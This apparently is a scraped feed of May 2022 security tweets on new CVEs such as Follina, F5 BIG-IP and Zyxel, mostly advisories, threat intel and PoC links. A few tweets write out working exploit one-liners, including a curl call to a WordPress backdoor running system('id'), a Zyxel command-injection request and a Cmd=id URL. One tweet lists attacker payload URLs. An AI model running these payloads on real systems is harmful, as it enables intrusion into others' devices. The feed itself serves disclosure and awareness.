

# EmericNasi
**https://twitter.com/EmericNasi/status/1531732180736610304 _at 2022-05-31, 20:19:44_**
<blockquote>
I have successfully integrated CVE-2022-30190 ms-msdt vulnerability to MacroPack Pro. Docx format done, including trojaning existing document :) 
I am now looking at porting to xlsx format.

Note that Defender does not detect it at the moment.
#redteam https://t.co/2b4MG6Mkn1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>263</code></td>
<td>Favorites: <code>925</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1531713602050486272 _at 2022-05-31, 19:05:55_**
<blockquote>
Microsoft has released workaround guidance for the "Follina" RCE vulnerability (CVE-2022-30190) affecting the MSDT. According to Microsoft, this vulnerability is being exploited in the wild. Apply workaround now. Read more at https://t.co/bqYrsLB3im. #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xJTET

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---

# BleepinComputer
**https://twitter.com/BleepinComputer/status/1531702106658332673 _at 2022-05-31, 18:20:14_**
<blockquote>
@serghei CISA urges admins and users to apply workarounds for this actively exploited zero-day (CVE-2022-30190 aka Follina) in the Windows Microsoft Support Diagnostic Tool (MSDT).

https://t.co/uOttTL4zVa https://t.co/aWO4SSqCMQ
</blockquote>

* https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1531570613143453702 _at 2022-05-31, 09:37:44_**
<blockquote>
Microsoft shares guidance on that new Office zero-day, now tracked as CVE-2022-30190

https://t.co/OwAqmtLzQ4
</blockquote>

* https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

# KlezVirus
**https://twitter.com/KlezVirus/status/1531560719577120768 _at 2022-05-31, 08:58:25_**
<blockquote>
Given all the fuzz about it, I've just updated https://t.co/1Z8XI3dF2S
to produce the DOCX and RTF payloads for triggering CVE-2022-30190 (aka Follina)
</blockquote>

* https://github.com/klezVirus/CVE-2021-40444/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>248</code></td>
</tr></table>

---

# MeAsHacker_HNA
**https://twitter.com/MeAsHacker_HNA/status/1531513011139117057 _at 2022-05-31, 05:48:50_**
<blockquote>
#RCE just by opening Office file with #CVE-2022-30190💀

More: https://t.co/tSJsNgDje2 https://t.co/O1u9733tV7
</blockquote>

* https://github.com/NafisiAslH/KnowledgeSharing/tree/main/CyberSecurity/Web/CVEs/CVE-2022/CVE-2022-30190

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>152</code></td>
</tr></table>

---

# BaoshengbinCumt
**https://twitter.com/BaoshengbinCumt/status/1531473162701258753 _at 2022-05-31, 03:10:30_**
<blockquote>
#Follina #CVE #Exploit #CVE-2022-30190 #threathunting #threatintelligence 
Attackers tested this 0day in October 2021.
39c15fecc73df9e62e0ffea3ead28b316917886ca06a099a7d825f8495c97e2e https://t.co/8Q54boV1fo
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# ShadowChasing1
**https://twitter.com/ShadowChasing1/status/1531432880999526400 _at 2022-05-31, 00:30:26_**
<blockquote>
our leader(@CrazymanArmy) hunt the exp of Microsoft Windows Support Diagnostic Tool (MSDT) Remote Code Execution Vulnerability Now it assigned to CVE-2022-30190
More detail:
https://t.co/ccKZVbkrtX https://t.co/78RIY7sKCU
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30190

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# holisticinfosec
**https://twitter.com/holisticinfosec/status/1531424547638943744 _at 2022-05-30, 23:57:19_**
<blockquote>
CVE-2022-30190: Microsoft Support Diagnostic Tool (MSDT) in Windows vuln. An RCE vuln exists when MSDT is called via the URL protocol from an app such as Word. Successfully exploited it allows running arbitrary code with the privileges of the calling app. https://t.co/EPWhMBuiO2
</blockquote>

* https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1531250993127739392 _at 2022-05-30, 12:27:40_**
<blockquote>
OK, now that I have access to a computer, let's take a look at this Office 0day that folks are talking about.
It's very similar to the MSHTML CVE-2021-40444 vul from September:
1) Use of '!' at the end of the retrieved URI
2) Size of retrieved HTML must be 4096 bytes or larger https://t.co/C2Bpuh7xHQ
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>231</code></td>
<td>Favorites: <code>585</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1531151217266569217 _at 2022-05-30, 05:51:12_**
<blockquote>
My theory is that this "ms-msdt" bug was an ITW 0day at a point, following the disclosure of the ".docx loading IE engine" vector in the CVE-2021-40444 0day (which was patched in Sep. PT). Microsoft knew the attack at some point and *silently patched* it in December or January.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>70</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1530967298777010178 _at 2022-05-29, 17:40:22_**
<blockquote>
A New Exploit Method for CVE-2021-3560 PolicyKit Linux Privilege Escalation https://t.co/rCATMWQvzT
</blockquote>

* http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1530847649334980609 _at 2022-05-29, 09:44:56_**
<blockquote>
Atlassian Jira Seraph Authentication Bypass RCE
CVE-2022-0540

https://t.co/AGCZEvbJ31

#nday #bugbountytips #bugsbunny
</blockquote>

* https://raw.githubusercontent.com/Pear1y/CVE-2022-0540-Preauth-RCE/main/exploit.yaml

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>187</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1530230445719396356 _at 2022-05-27, 16:52:23_**
<blockquote>
[ZDI-22-799|CVE-2022-1802] (Pwn2Own) Mozilla Firefox Top-Level Await Prototype Pollution Remote Code Execution Vulnerability (CVSS 8.8) https://t.co/x3zo6dNdFc
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-799/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1530230444490477568 _at 2022-05-27, 16:52:22_**
<blockquote>
[ZDI-22-798|CVE-2022-1529] (Pwn2Own) Mozilla Firefox Improper Input Validation Sandbox Escape Vulnerability (CVSS 7.8) https://t.co/qMe3O1nexE
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-798/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1530216269907218433 _at 2022-05-27, 15:56:03_**
<blockquote>
For CVE-2022-22972, I actually didn't know that the API ServletRequest.getServerName returns the host header: https://t.co/YKCukrj4yO(). The name doesn't hint at it in the slightest. Nice 👍 https://t.co/Qulv3XJ586
</blockquote>

* https://docs.oracle.com/javaee/6/api/javax/servlet/ServletRequest.html#getServerName

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1530168202008743937 _at 2022-05-27, 12:45:03_**
<blockquote>
weekend study:

A New Exploit Method for CVE-2021-3560 PolicyKit Linux Privilege Escalation https://t.co/iKYgPHdXdd
</blockquote>

* http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation-en/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>142</code></td>
</tr></table>

---

# CodeColorist
**https://twitter.com/CodeColorist/status/1530151391410409473 _at 2022-05-27, 11:38:15_**
<blockquote>
New exploit strategy for Polkit CVE-2021-3560 by @ykco_z https://t.co/bW739YddWF
</blockquote>

* http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation-en/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1529844649266802691 _at 2022-05-26, 15:19:22_**
<blockquote>
Utilizing @horizon3attack's early PoC, we were able to create two tags (Vuln Check &amp; Vuln Attempt) to help track CVE-2022-22972, an Auth Bypass for #VMware products such as Workspace ONE.

VMware Workspace ONE Authentication Bypass Check:

https://t.co/ECRy0jvTYU https://t.co/IS4oLMg9rv
</blockquote>

* https://viz.greynoise.io/tag/vmware-workspace-one-authentication-bypass-check

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1529694086193508353 _at 2022-05-26, 05:21:05_**
<blockquote>
CVE-2022-1609 WordPress Weblizar  Backdoor

$ curl -s -d 'blowfish=1' -d "blowf=system('id');" 'http://localhost:8888/wp-json/am-member/license'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
#bugbounty #bugbountytips #nday
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>271</code></td>
<td>Favorites: <code>823</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1528742287072980992 _at 2022-05-23, 14:18:58_**
<blockquote>
SDT-CW3B1 1.1.0 - OS Command Injection CVE-2021-46422

poc:hxxp://x.x.x.x/cgi-bin/admin.cgi?Command=sysCommand&amp;Cmd=id
#0day #nday #CVE #bugbountytips #bugbounty https://t.co/PPJZZ1EStb
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>446</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1528272861118418944 _at 2022-05-22, 07:13:38_**
<blockquote>
Mass scanning activity detected from 58.62.36.13 (🇨🇳) and 58.62.36.17 (🇨🇳) targeting F5 BIG-IP iControl REST endpoints vulnerable to unauthenticated remote code execution (CVE-2022-1388).
#threatintel
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1528226897984880640 _at 2022-05-22, 04:11:00_**
<blockquote>
Oracle issues emergency patch for CVE-2022-21500, a pre-auth RCE in Oracle E-Business Suite

"If successfully exploited, this vulnerability may result in the exposure of personally identifiable information (PII)."

https://t.co/vOLnRYFsRg
</blockquote>

* https://www.oracle.com/security-alerts/alert-cve-2022-21500.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# a13xp0p0v
**https://twitter.com/a13xp0p0v/status/1528116251628912640 _at 2022-05-21, 20:51:20_**
<blockquote>
I believe that detecting kernel vuln post-exploitation and illegal privilege escalation is impossible from inside the Linux kernel.

PoC by @wipawel demonstrates that.

My PoC exploit for CVE-2021-26708 bypassing LKRG @lkrg_org also demonstrates that: https://t.co/iZ8QRGbyhg
</blockquote>

* https://a13xp0p0v.github.io/2021/08/25/lkrg-bypass.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1527989628690567170 _at 2022-05-21, 12:28:10_**
<blockquote>
Apache CouchDB EPMD port:4369/TCP in ZoomEye About 81,154 results (Nearly year: 81,154 results) https://t.co/MT3wk1hv8x Of course, there has been an RCE vulnerability caused by default cookies in this protocol recently (CVE-2022-24706) https://t.co/ydN1PGogwy
</blockquote>

* https://www.zoomeye.org/searchResult?q=port%3A%224369%22%20%2B%22epmd_port%22&t=all

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# vxunderground
**https://twitter.com/vxunderground/status/1527673192696905729 _at 2022-05-20, 15:30:46_**
<blockquote>
You may not like it, but this is what a real 0day looks like.

*Hoax CVE-2022-26809 proof-of-concept published by "rkxxz", image courtesy of @podalirius_ https://t.co/dhNw9sVRuO
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>249</code></td>
</tr></table>

---

# reconshell
**https://twitter.com/reconshell/status/1527256167012917249 _at 2022-05-19, 11:53:39_**
<blockquote>
CVE 2022-26809 RCE Exploit

#CVE-2022-26809 #Exploit #RCE #vulnerability
#shellcode #Hacking #Bugbounty #Malware #VAPT
#CyberSecurity #RPC #Windows #Microsoft #Bugs

@Emrullah_A @D3pak 

https://t.co/jTR2SHT2lm
</blockquote>

* https://reconshell.com/cve-2022-26809-rce-exploit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# UK_Daniel_Card
**https://twitter.com/UK_Daniel_Card/status/1527209358098145280 _at 2022-05-19, 08:47:39_**
<blockquote>
More vulns in the same stack!
CVE-2022-22972 &amp; CVE-2022-22973

Authentication Bypass Vulnerability (CVE-2022-22972) &amp; Local Privilege Escalation Vulnerability (CVE-2022-22973)

#vmware #ropey #appliances #vulnerabilities #everywhere
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# m4cvl_
**https://twitter.com/m4cvl_/status/1526993808918913024 _at 2022-05-18, 18:31:08_**
<blockquote>
CVE-2022-29383
Netgear Prosafe SSL VPN SQL-Injection

SQL injection vulnerability via USERDBDomains.Domainname at cgi-bin/platform.cgi.

#cve #2022 #29383 #netgear #prosafe #ssl #vpn #firmware https://t.co/4Mr0EHWcbS
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>118</code></td>
</tr></table>

---

# AnnaViolet20
**https://twitter.com/AnnaViolet20/status/1526981698457587713 _at 2022-05-18, 17:43:01_**
<blockquote>
As I promised I wrote a blog post about how I could exploit the CVE-2022-1388, I hope you find it useful

https://t.co/yrB5DBziBe
</blockquote>

* https://securityflow.io/how-i-could-exploit-the-cve-2022-1388/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>437</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1526582880876609536 _at 2022-05-17, 15:18:15_**
<blockquote>
This is a very nice analysis of CVE-2021-27905 by @ykco_z https://t.co/dBWypCZhA1
</blockquote>

* http://noahblog.360.cn/apache-solr-8-8-1-ssrf-to-file-write/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>292</code></td>
</tr></table>

---

# zhuowei
**https://twitter.com/zhuowei/status/1526463674214498304 _at 2022-05-17, 07:24:34_**
<blockquote>
CVE-2022-26763, @LinusHenze's iOS 15.4.1/macOS 12.3.1 DriverKit bug, is caused by IOPCIDevice::_MemoryAccess just... not checking bounds at all:
https://t.co/a2CXw3xEmM
https://t.co/1Z7vlIcsPh https://t.co/DcK62z3Rzv
</blockquote>

* https://github.com/apple-oss-distributions/IOPCIFamily/blob/0b4c82fe7eaff74091b414225e966f993bfab328/IOPCIDevice.cpp#L2064
* https://github.com/apple-oss-distributions/IOPCIFamily/blob/0b4c82fe7eaff74091b414225e966f993bfab328/IOPCIDevice.cpp#L1848

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>216</code></td>
</tr></table>

---

# an0n_r0
**https://twitter.com/an0n_r0/status/1526349914048970753 _at 2022-05-16, 23:52:32_**
<blockquote>
CVE-2022-26923 ("Certifried") combined with KrbRelayUp: domain user to domain admin without the requirement for adding/owning previously a computer account. Step-by-step write-up of the attack in a pure Windows environment: https://t.co/0Vnp4NpTEo https://t.co/KfcEHgTQxq
</blockquote>

* https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>254</code></td>
<td>Favorites: <code>686</code></td>
</tr></table>

---

# izobashi
**https://twitter.com/izobashi/status/1526320265684213760 _at 2022-05-16, 21:54:43_**
<blockquote>
My first two CVEs of 2022 have been published: 
CVE-2022-21908: Microsoft Windows Installer LPE
CVE-2022-26751: Apple AppleGraphicsControl component RCE (when rendering the thumbnail of a file) affecting macOS, iOS and iPadOS.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>213</code></td>
</tr></table>

---

# sirifu4k1
**https://twitter.com/sirifu4k1/status/1526168426783592448 _at 2022-05-16, 11:51:22_**
<blockquote>
#POC CVE-2022-30778: Laravel 9.1.8 unserialize POP chain to RCE  https://t.co/2VzrQOPLIR
</blockquote>

* https://github.com/1nhann/vulns/issues/1

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---

# Shadowserver
**https://twitter.com/Shadowserver/status/1526116555117023232 _at 2022-05-16, 08:25:15_**
<blockquote>
We are seeing an uptick of scans testing for the Sophos Firewall CVE-2022-1040 RCE. The vulnerability published 25th March, but a POC was published 9th May, and that appears to be used. Make sure to patch!

Sophos advisory: https://t.co/wQEjfdPUUf

https://t.co/9eQvWio2rO
</blockquote>

* https://www.sophos.com/en-us/security-advisories/sophos-sa-20220325-sfos-rce
* https://www.bleepingcomputer.com/news/security/critical-sophos-firewall-vulnerability-allows-remote-code-execution/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# Shadowserver
**https://twitter.com/Shadowserver/status/1525771529941921792 _at 2022-05-15, 09:34:14_**
<blockquote>
We see at least 20 800 of the potentially affected Zyxel firewall models (by unique IP) accessible on the Internet. Most popular are USG20-VPN (10K IPs) and USG20W-VPN (5.7K IPs). 

Most of the CVE-2022-30525 affected models are in the EU - France (4.5K) and Italy (4.4K). https://t.co/Wh7I8JCvVv
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# PadsalaTushal
**https://twitter.com/PadsalaTushal/status/1525661553432797184 _at 2022-05-15, 02:17:14_**
<blockquote>
#PoC for CVE-2022-1388 is out, grab it here! Added #shodan query!

https://t.co/nX4FufMyI4

 #bugbounty #bugbountytips #infosec #cybersecurity https://t.co/BbYx6mkrSl
</blockquote>

* https://github.com/sherlocksecurity/CVE-2022-1388_F5_BIG-IP_RCE

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1525527923897384961 _at 2022-05-14, 17:26:14_**
<blockquote>
WSO2 - CVE-2022-29464 🚨
Unrestricted File Upload lead to RCE

1ra ronda de explotación inicio el 21 de Abril con la instalación masiva de #webshells como backdoor. Al menos 212 servidores en el mundo ya están comprometidos (última imagen con el TOP 25 servidores por país). https://t.co/ara6Fu2IBD
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# princechaddha
**https://twitter.com/princechaddha/status/1525428146715078657 _at 2022-05-14, 10:49:45_**
<blockquote>
Highlights of Nuclei-Templates release v9.0.1

- Added Zyxel Firewall - Unauthenticated RCE [CVE-2022-30525]

- Added Sophos Firewall - RCE [CVE-2022-1040]

- Updated F5 BIG-IP iControl - RCE [CVE-2022-1388] with custom CMD execution support and improved matchers.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1525224877191569408 _at 2022-05-13, 21:22:02_**
<blockquote>
CVE-2022-26923: Active Directory Domain Services Elevation of Privilege Vulnerability.

PoC
https://t.co/19CjRU4sgU https://t.co/RQ8F0w7Jkt
</blockquote>

* https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>190</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1525224472067903491 _at 2022-05-13, 21:20:26_**
<blockquote>
CVE-2022-29108: New Wine in Old Bottle - Microsoft Sharepoint Post-Auth Deserialization RCE.

https://t.co/8s9WwKM9ij https://t.co/WUbqLWngNk
</blockquote>

* https://starlabs.sg/blog/2022/05/new-wine-in-old-bottle-microsoft-sharepoint-post-auth-deserialization-rce-cve-2022-29108/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1525166293430677504 _at 2022-05-13, 17:29:15_**
<blockquote>
⚠️ CVE-2022-1388 event detected ⚠️

Source IP:
192.3.194.202 (🇺🇸)

Target:
F5 BIG-IP iControl REST endpoints vulnerable to unauthenticated remote code execution (https://t.co/WUtSumd1b7)

Payload:
http://185.101.107.92/xms
http://185.101.107.92/d.py
. . .
#threatintel https://t.co/kHoLN0R7cy
</blockquote>

* https://support.f5.com/csp/article/K23605346

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1525096747835719690 _at 2022-05-13, 12:52:54_**
<blockquote>
curl -v --insecure -X POST -H "Content-Type: application/json" -d
'{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}'
https://192.168.1.1/ztp/cgi-bin/handler

CVE-2022-30525
</blockquote>

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>179</code></td>
<td>Favorites: <code>705</code></td>
</tr></table>

---

# akazh18
**https://twitter.com/akazh18/status/1525062528270622720 _at 2022-05-13, 10:36:55_**
<blockquote>
Just Tool for checking and exploit BIG-IP iControl REST vulnerability CVE-2022-1388 (RCE)
mode:
- single
- mass

Link:
https://t.co/epzOzfkwnS
LAB:
https://t.co/snsnEgMKpa

#CVE #CVE20221388 #F5 #bugbounty #bugbountytips #infosec #zeroday #0day https://t.co/RlqQJs75Sy
</blockquote>

* https://github.com/justakazh/CVE-2022-1388
* https://github.com/bandit92/CVE2022-1388_TestAPI

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>144</code></td>
</tr></table>

---

# Raj_Samani
**https://twitter.com/Raj_Samani/status/1525007011724902400 _at 2022-05-13, 06:56:19_**
<blockquote>
Nice work @Junior_Baines ,who identified CVE-2022-30525 that affects Zyxel firewalls - allows "an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device" - @metasploit module available https://t.co/QZbVeBNAD7 #infosec https://t.co/KzQImO1iaW
</blockquote>

* https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1524902483784618002 _at 2022-05-13, 00:00:58_**
<blockquote>
CVE-2022-23270 – Windows Server VPN Remote Kernel Use After Free Vulnerability (Part 2) https://t.co/YBQPZGlMBQ  #Pentesting #Windows #Vulnerability #CyberSecurity #Infosec https://t.co/qXrQaujlRl
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-23270-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1524758537129373697 _at 2022-05-12, 14:28:58_**
<blockquote>
😎 F5 BIG-IP RCE (CVE-2022-1388). How it works? https://t.co/IaanllkDhH
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>185</code></td>
<td>Favorites: <code>482</code></td>
</tr></table>

---

# Junior_Baines
**https://twitter.com/Junior_Baines/status/1524750691490619392 _at 2022-05-12, 13:57:48_**
<blockquote>
